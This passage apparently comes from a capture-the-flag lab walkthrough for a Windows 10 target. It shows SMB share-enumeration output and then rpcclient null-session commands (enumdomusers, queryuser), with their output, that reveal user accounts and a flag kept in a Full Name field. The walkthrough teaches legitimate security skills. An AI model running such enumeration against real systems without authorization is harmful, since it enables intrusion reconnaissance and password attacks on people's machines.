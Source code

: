 **Expected Output**:
```
SMB         192.168.148.102 445    DESKTOP-TEI5A1Q  [*] Windows 10 Pro Build 19041 x64 (name:DESKTOP-TEI5A1Q) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         192.168.148.102 445    DESKTOP-TEI5A1Q  [+] \: 
SMB         192.168.148.102 445    DESKTOP-TEI5A1Q  [+] Enumerated shares
SMB         192.168.148.102 445    DESKTOP-TEI5A1Q  Share           Permissions     Remark
SMB         192.168.148.102 445    DESKTOP-TEI5A1Q  -----           -----------     ------
SMB         192.168.148.102 445    DESKTOP-TEI5A1Q  Users           READ            
SMB         192.168.148.102 445    DESKTOP-TEI5A1Q  Downloads       READ            
SMB         192.168.148.102 445    DESKTOP-TEI5A1Q  WorkFiles       READ
```

---

## Phase 2: User Discovery and Initial Access

### Understanding User Enumeration

**Why Enumerate Users First?**: 
- Valid usernames enable password attacks
- User properties contain information
- Understanding user roles guides privilege escalation

### FLAG 1: User Full Name Discovery

**Location**: jsmith user Full Name field  
**Difficulty**: Easy  
**Learning Objective**: Understanding Windows user properties

#### Method 1: RPC Enumeration

```bash
# Connect with null session
┌──(kali㉿kali)-[~]
└─$ rpcclient -U "" -N 192.168.148.102
```

**Command Explanation**:
- `-U ""`: Empty username (null session)
- `-N`: No password
- Exploits legacy SMB allowing anonymous connections

```
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[jsmith] rid:[0x3e9]
user:[mjones] rid:[0x3ea]

rpcclient $> queryuser jsmith
        User Name   :   jsmith
        Full Name   :   John Smith - FLAG{M**********1}
        Home Drive  :   
        Dir Drive   :   
        Profile Path:   
        Logon Script:   
        Description :   Standard User Account
```
